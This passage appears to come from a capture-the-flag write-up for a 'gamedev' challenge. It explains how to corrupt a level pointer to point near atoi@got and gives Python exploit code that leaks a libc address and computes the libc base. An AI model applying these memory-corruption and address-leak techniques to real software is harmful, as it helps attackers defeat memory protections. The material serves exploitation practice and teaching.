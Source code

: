 ![](gamedev_overwrite_step1.png)

Now let's reset to tier one, then explore to the second level in tier one, and then explore to the first level which we have corrupted to be `atoi@got` - `0x40`. Then we can call
`test_level` to print out `atoi@got` which will be a libc leak. The python code to get this far can be seen below. 

```python
reset()
explore(2)
explore(1)

test_level()
p.recvuntil(b'Level data: ')

libc_leak = u64(p.recv()[0:6].ljust(8, b'\x00'))

libc.address = libc_leak - libc.symbols['atoi']
print(hex(libc.address))
```
